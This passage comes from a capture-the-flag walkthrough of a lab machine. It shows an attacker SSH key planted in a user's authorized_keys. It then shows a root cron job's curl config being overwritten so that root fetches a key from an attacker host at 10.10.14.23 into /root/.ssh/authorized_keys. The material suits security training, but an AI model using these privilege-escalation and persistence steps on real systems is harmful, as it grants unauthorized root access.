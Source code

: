 ```
floris@curling:~$ mkdir .ssh
mkdir .ssh
floris@curling:~$ echo "ssh-rsa AAAAB...DhscPOtelvd root@kali2" > .ssh/authorized_keys
<cPOtelvd root@kali2" > .ssh/authorized_keys
```

In `admin-area` folder, there are two files with a timestamp that keeps refreshing every few minutes:

```
floris@curling:~/admin-area$ ls -la
total 12
drwxr-x--- 2 root   floris 4096 May 22 19:04 .
drwxr-xr-x 7 floris floris 4096 Oct 27 20:39 ..
-rw-rw---- 1 root   floris   25 Oct 27 20:40 input
-rw-rw---- 1 root   floris    0 Oct 27 20:40 report
floris@curling:~/admin-area$ date
Sat Oct 27 20:40:44 UTC 2018
```

looks like there could be a cron job running as root. let's confirm this by running a simple `ps` command in a bash loop:

```
floris@curling:~/admin-area$ while true; do ps waux | grep report | grep -v "grep --color"; done
root      9225  0.0  0.0   4628   784 ?        Ss   20:44   0:00 /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root      9227  0.0  0.4 105360  9076 ?        S    20:44   0:00 curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root      9225  0.0  0.0   4628   784 ?        Ss   20:44   0:00 /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root      9227  0.0  0.4 105360  9076 ?        S    20:44   0:00 curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root      9225  0.0  0.0   4628   784 ?        Ss   20:44   0:00 /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root      9227  0.0  0.4 105360  9076 ?        S    20:44   0:00 curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root      9225  0.0  0.0   4628   784 ?        Ss   20:44   0:00 /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root      9227  0.0  0.4 105360  9076 ?        S    20:44   0:00 curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```


As suspected, a cronjob executes curl using a `input` config file which we can write to.

We will change the file to fetch our SSH public key and save it into root's authorized_keys file:

```
floris@curling:~/admin-area$ echo -ne 'output = "/root/.ssh/authorized_keys"\nurl = "http://10.10.14.23/key.txt"\n' > input
floris@curling:~/admin-area$ cat input
output = "/root/.ssh/authorized_keys"
url = "http://10.10.14.23/key.txt"
```
